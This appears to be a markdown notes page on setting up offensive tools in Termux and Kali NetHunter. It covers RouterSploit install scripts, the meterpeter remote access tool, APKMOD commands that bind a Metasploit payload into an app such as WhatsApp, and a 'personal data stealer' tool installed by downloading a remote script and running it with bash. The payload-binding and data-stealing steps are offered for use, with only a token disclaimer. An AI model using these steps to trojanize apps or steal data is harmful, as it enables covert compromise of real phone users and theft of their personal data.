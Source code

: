 ### Install nethunter
* [kali NetHunter](https://www.kali.org/docs/nethunter/installing-nethunter/?fbclid=IwAR3ghqFZmYRjh3sLw5WNzqegpTMIJ4nYAeWtZhdmjwMjo_ZPUx6yNHJ3o-I)
```
Installing NetHunter requires the following steps:
- Download a pre-built image or build your own image
- Put your device in developer mode
- Unlock your device
- Install TWRP
- Flash Magisk
- Android 9 and above: Format “data” and flash Universal DM-Verity & ForceEncrypt Disabler
- Install NetHunter
- Android 10 and above: Update NetHunter App from the NetHunter Store
- Run the NetHunter App to finish the installation
```
### Termux software install
* pkg update
* pkg upgrade
### Banner
```
"Want to add a custom banner to your Termux terminal?
Check out the Evil Eye script created by Bhai4You on GitHub. This script will install multiple packages like figlet, toilet, cow say, nano, ruby, local cat and use them to display the Evil Eye banner in Termux.
Follow these steps:
1) pkg install git -y
2) git clone https://github.com/Bhai4You/Termux-Banner
3) cd Termux-Banner
4) chmod +x *
5) bash requirement.sh
6) bash t-ban.sh
7) Type your banner name.
Perfect for tutorials and fun!
```
### routersploit on termux 
#### As you know routersploit on termux there are always problems i found the solution for routersploit on termux again
```
#!/bin/bash
echo "=================="
echo "Bash script for routersploit installation on termux"
echo "Keep your phone alive and try not to use it while installing"
echo "=================="
sleep 3
apt update -y && apt upgrade -y
apt install autoconf automake bison bzip2 clang cmake coreutils diffutils flex gawk git grep gzip libtool make patch perl sed silversearcher-ag tar wget pkg-config python clang libcrypt libffi git openssl libsodium -y
python -m pip install wheel
SODIUM_INSTALL=system pip install pynacl
git clone https://github.com/threat9/routersploit
mv routersploit $HOME/
pip install -r requirements.txt
pip install -r requirements-dev.txt
echo "Done!"
```
##
```
cd routersploit
apt install python-cryptography
apt install python-bcrypt
pip install -r requirements.txt
pip install colorama
pip3 install setuptools
export SODIUM_INSTALL=system
pip3 install --no-binary :all: pynacl
pip install routersploit
python rsf.py
```
* ![routerspolit](https://github.com/jumbokh/Network-class/blob/main/images/routerspolit.jpg)
####
#### Debug -- bcrypt
```
A possible workaround (for experts). Get source and apply the following patch:

--- a/src/_bcrypt/Cargo.toml
+++ b/src/_bcrypt/Cargo.toml
@@ -20,5 +20,5 @@
 crate-type = ["cdylib"]
 
 [profile.release]
-lto = "thin"
+#lto = "thin"
 overflow-checks = true
And then in the source directory

pip install .
```
##
```
cryptography is available as a Termux package named python-cryptography. bcrypt will soon become available as python-bcrypt.
==>
export CARGO_BUILD_TARGET=aarch64-linux-android && pip install cryptography
==> python-bcrypt
```
##
### codename: Zaratustra  -- Remote Access Tool v2.10.13
* https://github.com/r00t-3xp10it/meterpeter
* https://github.com/r00t-3xp10it/meterpeter/releases/tag/v2.10.13?fbclid=IwAR1x6fnvnOpvoSuBJd0hvIKGxzBs8tw9iFAwpMglOlohUaCBQnf5H48QHPc
#### Install on Linux
```
https://github.com/r00t-3xp10it/meterpeter/blob/master/README.md#attacker-machine-linux-kali
```
##
#### Bind apk metasploit
* https://raw.githubusercontent.com/Hax4us/Apkmod/master/setup.sh?fbclid=IwAR15wlxfGnVR-dPgHwpe2BaveBsTt7ZGKdJqRDR--VQUq9x0S5-o3GtJZEY
```
Bind Metasploit Payload With App In Termux
Install APKMOD:
cd $HOME
pkg install wget
wget https://raw.githubusercontent.com/....../master/setup.sh
bash setup.sh
apkmod
Command:
apkmod -b -i original.apk -o binded.apk lhost=yourLhostHere lport=yourLportHere
apkmod -b -i /sdcard/Whatsapp.apk -o mybindedapp.apk lhost=127.0.0.1 lport=4444
```
##
#### PentestBox
* https://github.com/B4rC0d/PentestBox.git
```
This Tool is a Collection of Penetration Testing and Information Gathering Tools For Termux 🔰
Description : This script Aio Web Hacking & Information Gathering Included Admin Panel & Robots File Scanner & Whois And more ... You can use on Termux , Linux(Kali Linux)
☢️ Feature :
    ~> Admin Page Finder
    ~> DNS Lookup
    ~> Robots Scanner
    ~> Find Shared DNS
    ~> Show HTTP Header
    ~> IP location Finder
    ~> Port Scan
    ~> Whois
    ~> decode (Hash Crack)
    ~> encode
🔴 Installation  :-
$  apt update && apt upgrade -y
$  apt install git -y
$  apt install python3 -y
$  apt install python3-pip -y
$  git clone https://github.com/B4rC0d/PentestBox.git 
$  cd PentestBox
$  pip3 install -r requirements.txt 
$  python3 PentestBox.py
```
##
* https://github.com/Bhai4You/Shikari
```
shikari, Personal Data Stealer Termux Tool.
Installation
$ pip install shikari
or
$ wget https://raw.githubusercontent.com/....../shikari.sh;bash shikari.sh
Note:- This tool is only for educational purposes. We are not responsible for any misuse or illegal activities.
```
